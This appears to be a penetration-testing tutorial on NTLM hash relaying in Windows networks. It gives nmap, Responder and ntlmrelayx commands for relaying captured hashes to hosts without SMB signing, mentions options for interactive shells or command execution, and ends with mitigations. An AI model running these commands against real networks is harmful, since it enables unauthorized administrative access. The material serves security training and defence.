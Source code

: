Sometimes, we're unable to crack the hashes that we recovered. In that case, we can just relay those hashes to specific machines and potentially gain access.<br><br>
There are a specific set of requirements we must meet for this to work:
- SMB Signing must be DISABLED on the target.
- Relayed user credentials must preferrably be ADMIN.

## Exploitation
Assuming SMB Signing has been disabled on the target, start with a confirmation scan:
```bash
nmap -script=smb2-security-mode.nse -p 445 TARGET-IP
```
In order to relay the hashes, we'll need to edit the configuration file [responder.conf] with SMB to 'Off' and HTTP to 'Off'.<br>
Then proceed with listening for events:
```bash
sudo responder -I eth0 -dwPv
```
As well as, set up a relay:
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
*You can also add the following flags: 
- i for interactive mode (if you're using this mode, create a listener on the specified port)
- c for executing commands

## Mitigation
- Enable SMB signing on all devices (bare in mind, this can cause performance issues with file copies especially on legacy systems)
- Disable NTLMv1 authentication on network (If Kerberos stops working, Windows defaults back to NTLMv1)
- Account Tiering (Check AD Tier Modeling)
- Local admin restriction (Use LAPS to save yourself from the amount of potential increase in service desk tickets)
